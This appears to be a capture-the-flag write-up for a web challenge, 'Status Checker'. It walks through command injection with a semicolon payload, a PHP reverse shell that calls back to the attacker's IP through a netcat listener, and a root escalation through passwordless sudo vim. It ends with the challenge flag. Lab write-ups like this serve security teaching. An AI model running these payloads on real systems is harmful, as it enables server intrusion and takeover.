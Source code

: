 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![wimg-2](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-2.png)

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![wimg-3](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-3.png)

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![wimg-4](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-4.png)

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![wimg-5](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-5.png)

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. We can use the command ``sudo -l`` and see that we can run the command ``vim`` as root without a password as seen in the following screenshot.

![wimg-6](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/64886584ff8936fb97898bbd2e3c574d9482bacc/challenges/web/Status%20Checker/images/wimg-6.png)

Using GTFOBins, we are able to breakout and obtain a shell as a root user using the following command:

```
vim -c ':!/bin/sh'
```

Using the command ``whoami`` we can see that we are now the root user as seen in the following screenshot.

![wimg-7](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/64886584ff8936fb97898bbd2e3c574d9482bacc/challenges/web/Status%20Checker/images/wimg-7.png)

We can obtain the flag in the root directory by using the command ``cd /root`` and ``cat flag.txt``. The flag is ``HEX{N3tw0rK_ErR_500_W1kS2kKiL}``.
